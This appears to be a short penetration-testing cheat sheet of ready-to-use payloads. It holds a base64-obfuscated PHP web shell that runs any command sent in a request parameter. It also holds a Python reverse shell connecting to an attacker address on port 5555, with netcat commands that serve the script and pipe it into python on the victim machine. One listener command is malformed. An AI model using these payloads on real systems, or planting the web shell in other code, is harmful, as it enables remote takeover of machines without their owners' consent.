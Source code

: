 ## PHP
Payload: echo passthru($_REQUEST["cmd"])
```
<pre><?php eval(base64_decode('ZWNobyBwYXNzdGhydSgkX1JFUVVFU1RbImNtZCJdKTsg'));?></pre>
```

## NC + Python

Create Python reverse shell

shell.py
```
import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.10.10.1",5555))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p=subprocess.call(["/bin/sh","-i"])
```

Wait for connect back on Kali

```
kali@kali:~$ -nlvp 5555
```

Serve the shell from Kali

```
kali@kali:~$ nc -nvlp 4444 < shell.py
```

Get the shell from Kali and execute it on Victim

```
joe@victim:~$ nc 10.10.10.1 4444 | python
```
